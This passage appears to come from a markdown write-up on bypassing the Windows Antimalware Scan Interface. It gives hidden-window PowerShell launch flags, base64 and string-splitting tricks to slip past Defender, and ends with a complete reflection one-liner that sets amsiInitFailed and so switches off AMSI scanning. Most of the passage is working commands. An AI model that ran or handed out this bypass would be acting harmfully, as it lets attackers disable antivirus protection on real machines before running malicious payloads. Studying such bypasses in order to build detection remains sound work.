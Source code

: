 Using the above simple technique, the AMSI disabling code can be run without interruption by Windows Defender. This detection however can be easily extended within AMSI in the future, obfuscating these calls as much as possible, such as doing base64 encoding, hex encoding and encryption can be leveraged to permute the strings in countless combinations. Some of these methods are below.

## Execution Methods
The 'traditional' way to executing powershell payloads is now flagged by AMSI as suspicious. In testing, using just `-enc` was found to bypass these detections.
```powershell
# traditional method
Powershell -noP -sta -w 1 -enc <BASE_64_STRING>
```
Breaking it down, each arg:
* -noP
    * No Profile
* -sta
    * Singe Threat Appartment
* -w l
    * Launch the window hidden
* -enc
    * base64 encoded script

## Base64 Encoding
Windows uses `UTF-16LE` as its default character set, so any work done on a non-windows platform will need to be encoded to this format prior to being Base64 encoded.
### Encoding on Linux
```bash
python3 -c 'import base64; print(base64.b64encode("AmsiUtils".encode("UTF-16LE")).decode("ascii"))'
QQBtAHMAaQBVAHQAaQBsAHMA
python3 -c 'import base64; print(base64.b64encode("amsiInitFailed".encode("UTF-16LE")).decode("ascii"))'
YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA==
```

### Encoding on Windows
Note, if AMSI is enabled, the string will need to be created via concatenation, otherwise AMSI will flag it as discussed earlier.
```powershell
[System.Convert]::ToBase64String([System.Text.Encoding]::UNICODE.GetBytes("Am"+"si"+"Ut"+"il"+"s"))
QQBtAHMAaQBVAHQAaQBsAHMA
[System.Convert]::ToBase64String([System.Text.Encoding]::UNICODE.GetBytes("am"+"si"+"In"+"it"+"Fa"+"il"+"ed"))
YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA==
```

### Decoding
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
